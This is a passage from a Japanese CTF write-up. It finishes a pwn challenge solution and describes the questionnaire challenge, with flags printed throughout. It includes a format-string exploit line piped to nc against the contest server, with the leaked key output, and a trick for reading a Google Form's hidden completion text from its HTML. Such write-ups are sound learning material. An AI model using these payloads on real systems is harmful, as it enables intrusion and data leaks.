 ```
key        : 0x334
flag is taskctf{wh@'2_334?}
```

フラグが得られました。

```
taskctf{wh@'2_334?}
```

---

なお、`s3cr37` が `peep2` と同じアドレスに存在しているようで、同じ解法で解くことができました。

```
$ (echo -en '\x40\xa0\x04\x08%4$s'; echo neko) | nc (省略)


@taskctf{wh@'2_334?}neko
key address: 0x804a060
key        : 0x12345678
```

## [Misc 100] Questionnaire

アンケートに答えるとフラグが得られました。CTF の終了 1 時間ほど前に追加された問題で、それまで私が 1 位を維持していましたが [kusano さん](https://qiita.com/kusano_k/items/a768cece0a2737cc9be1#questionnaire)に回答速度で負けました😇

```
taskctf{Th4nk_y0u_f0r_pl4y1ng!}
```

---

よく考えれば、Google フォームは HTML を見れば回答せずとも終了後のメッセージが得られますね。

```
︙
]
]
]
,["taskctf{Th4nk_y0u_f0r_pl4y1ng!}",1,0,0,0]
,null,null,[0,0]
,null,null,"taskCTF Questionnaire",48,[null,null,null,null,0]
,null,null,null,null,[2]
︙
```